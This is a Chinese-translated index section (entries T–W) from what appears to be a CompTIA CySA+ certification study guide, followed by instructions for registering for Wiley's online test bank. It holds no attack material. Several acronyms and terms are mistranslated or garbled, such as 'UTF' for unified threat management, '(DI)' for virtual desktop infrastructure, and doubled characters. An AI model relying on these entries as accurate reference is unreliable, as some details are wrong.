  - 工具与技术，151
- 威胁情报
  - 关于，136–137, 151–152
  - 复习题的答案，493–495
  - 于全范围内应用，148–151
  - 评估，140–141
  - 社区，145–146
  - 考试要点，152–153
  - 情报周期，144–145
  - 实验练习，153–154
  - 开源情报，137–139
  - 规划，144–145
  - 专有和闭源码情报，139–140
  - 复习题，155–188
  - 共享，142–144
  - 威胁分类，146–148
- 威胁信誉，306
- `ThreatConnect` 评分系统，141
- `Threatfeeds.io`，137
- 威胁
  - 关于，7
  - 类别，9
  - 分类，305–307, 357
  - 定义，294
  - 识别，9–10
  - 研究与建模，305–307
- 作为 NAC 标准的时间段，14
- 时间同步，45–46
- 存活时间（`TTL`），162
- 时间箱法，316
- 时间线，437
- 工具与技术
  - 关键基础设施与运营，275
  - 使用……确定恶意活动，104–126
  - 取证证，449–450
  - 用于信息聚合与分析，190
  - 集成，29
  - 用于端口扫描，165–174
  - 用于安全，110–111
  - 用于服务发现，165–174
  - 用于威胁狩猎，151
  - 用于漏洞评估，228–237
- 漏洞管理中的 Top 10 列表，429
- `traceroute`，185
- 跟踪监管链，454
- 流量分析，89
- 流量峰值，85–86
- 培训
  - 员工，428
  - 用于渗透测试，24
  - 软件开发生命周期（SDLC）中的过渡阶段，312
- 传输层安全（`TLS`），67, 270
- 趋势分析，259
- 漏洞管理中的趋势，428
- `Tripwire`，119
- 信任决策，59
- 可信威胁情报交换（`TAXII`）协议，143
- 双因子认证（`2FA`），55

## U

- `UC Berkeley`，327–329
- 英国国家基础设施保护，146
- `Ulricht, Ross`，467–468
- 未授权的访问，97–99
- 未授权的更改，97–99
- 未授权的权限使用，97–99
- 未授权的软件，95–97
- 异常流量峰值，85–86
- 统一杀链（Unified Kill Chain），366–367
- 统一威胁管理（`UTF`），本地网络架构，48
- 美国网络和基础设施安全局（CISA），137
- 美国国防部（DoD），26, 137
- USB 设备历史，查看，470
- `USB Historian`，470
- 通用隐私原则（`APP`），6
- 用户验收测试（UAT），312, 324
- 用户和实体行为（UEBA），121
  - 分析，121
  - 异常，383–384
- 用户交互（`UI`）指标，251
- 用户故事，316

## V

- 验证
  - 数据完整性，388–389, 410, 465, 468
  - 哈希处理与，454–455
  - 漏洞扫描，256–260
- 速度跟踪，316
- 版本控制，309
- 版本
  - 识别，168–169
  - 过时的 `SSL/TLS`，270
- 查看 USB 设备历史，470
- 虚拟桌面基础设施（DI），39
- 虚拟局域网（VLAN），50, 400
- 虚拟机（VMs），70–71, 163
- 虚拟私有云（VPC），49
- 虚拟专用网络（VPN），51
- 虚拟分段，50
- 虚拟化，39
- 虚拟化取证，461
- `VirusShare`，138
- `VirusTotal`，120
- `Visa`，329
- `Volatility Framework`，456, 471（注：此处原文码可能有误）
- 漏洞
  - 关于，7, 294, 333
  - 风险分析，294–300
  - 复习题的答案，501–503
  - 缓冲区溢出，264–265
  - 常见的，260–293
  - 关键，429
  - 定义，294
  - 安全设计与编码，319–321
  - 寿命结束，263–264
  - 终端，261–269
  - 考试要点，333–334
  - 识别，10
  - 实现安全控制，303–304
  - 不安全的设计，267–268


- 实验练习，334–335
- 管理计算环境，307–310
- 管理风险，300–303
- 网络，269–274
- 过时的组件，263–264
- 策略、治理与服务水平目标，325–332
- 权限提升，265–266
- 修复，287
- 远程代码执行，266–267
- 响应，293–339
- 复习题，336–339
- 安全配置错误，268–269

- 服务器，261–269
- 软件保障最佳实践，310–318
- 软件安全测试，321–325
- 威胁分类，305–307
- Web 应用程序，276–281
- 漏洞源，218
- 漏洞管理
  - 指标和 KPI，428–429
  - 报告，424–431，441
- 漏洞管理计划
  - 204，238
  - 复习题答案，497–499
  - 评估工具用于，228–237
  - 配置漏洞扫描，213–221
  - 开发修复工作流，221–226
  - 考试要点，238–239
  - 执行漏洞扫描，213–221
  - 识别需求，204–212
  - 实验室练习，239–240
  - 克服漏洞扫描的风险，227–228
  - 复习题，241–244
  - 威胁情报与，142
- 漏洞扫描
  - 关于，247，284
  - 主动，212
  - 分析，245–291
  - 复习题答案，499–500
  - 常见漏洞，260–283
  - 配置，213–221
  - 探测，86–87
  - 考试要点，284–285
  - 执行，213–221
  - 识别目标，209–210
  - 基础设施，228–229
  - 安装，239–240
  - 释，285
  - 实验室练习，285–287
  - 扫描器维护，218
  - 被动，212
  - 报告，247–256
  - 复习题，288–291
  - 运行，240
  - 调度，210–212
  - 范围，213–214
  - 敏感性级别，214–215
  - 扫描器软件，219
  - 验证结果的结果，256–260

## W

- 瀑布模型方法，313
- 武器化，255，364，365
- 作为威胁的 Web，357
- Web 应用防火墙（WAFs），17，108，428
- Web 应用扫描，233–235
- Web 应用漏洞，276–281
- 设备上的 Web 服务（WSD），170
- Web shell，280
- Webhooks，29
- 网站
  - 活动目录服务（AD FS），63
  - AlienVault 开放威胁交换，379
  - 澳大利亚信号局中心，138
  - CISA 自动化指标共享（AIS），137
  - CISA 信息共享与分析组织（ISA），137
  - Cisco 威胁安全站点，137
  - Cuckoo 沙箱，120
  - 入侵钻石模型，362
  - 域名工具，190
  - 基于域名的消息认证、报告和合规（DMARC），118
  - Honeynet 项目，151
  - Joe 沙箱，120
  - 洛克希德网络杀链，366
  - Microsoft 威胁博客，137
  - MISP 威胁共享项目，137
  - MITRE ATT&CK 框架，362
  - 国家档案记录，351
  - 国家 ISAC 委员会，145
  - 美国标准与技术研究院（NIST）SP 800-115，161
  - NIST 国家软件库，455
  - 开源安全方法论（OSSTMM），161，367
  - 开源 Web 安全项目（OWASP），367
  - 开放威胁交换，137
  - 渗透测试标准，161
  - 勒索软件手册，353
  - SANS 风暴中心，138
  - `Senki.org`，137
  - 共享评估，48
  - SP 800-61 计算机安全事件处理指南，433
  - Spamhaus，138
  - ThreatConnect 评分系统，141
  - Threatfeeds.io，137
  - 英国国家保护中心，146
  - 统一杀链，366
  - 美国网络与基础设施安全局（CISA），137
  - 美国国防部（DoD），137
  - VirusShare，138
  - VirusTotal，120
  - Whois，112
  - 常用端口，166
  - Whois，112，184
  - Windows 注册表
    - 关于，42
    - 变化或异常，98
    - 探索，71
  - Windows 服务，102
  - Windows 更新，310
  - 擦除驱动器，449
  - 擦除移除介质，449
  - 有线威胁，89
  - 无线威胁，90
  - Wireshark，111，458
  - 写写保护器，449，468

# 在线题库

为了帮助你准备 CompTIA CySA+ 认证考试，请注册并在激活后获得一年的免费在线交互题库访问权限——购买本书即包含！书中的所有章节复习题和测试题都包含在在线题库中，你可以在计时和评分环境中进行练习。

## 注册并访问在线题库

要注册您的书籍并访问在线题库，请按照以下步骤操作：

1. 访问`www.wiley.com/go/sybextestprep`。你会看到“如何注册书籍以在线访问”说明。
2. 点击“此处注册”，然后从列表中选择您的书籍。
3. 完成所需的注册信息，包括回答安全验证以证明拥有书籍所有权。您将通过电子邮件收到一个验证码（pin code）。
4. 按照邮件中的说明操作或访问`www.wiley.com/go/sybextestprep`。
5. 在该页面找到您的书籍，并点击对应的“注册或登录”（Register or Login）链接。然后输入您收到的验证码并点击“激活验证码”（Activate PIN）按钮。
6. 在“创建账户或登录”（Create an Account or Login）页面，输入您的用户名和密码并点击“登录”，如果您还没有账户，请创建一个新账户。
7. 此时，您应该已经进入了题库网站，您的新题库将列在页面顶部。如果您在那里没有看到，请刷新页面或注销并重新登录。


# WILEY 终端用户许可协议

访问[www.wiley.com/go/eula](http://www.wiley.com/go/eula)获取 Wiley 电子书用户许可协议（EULA）。
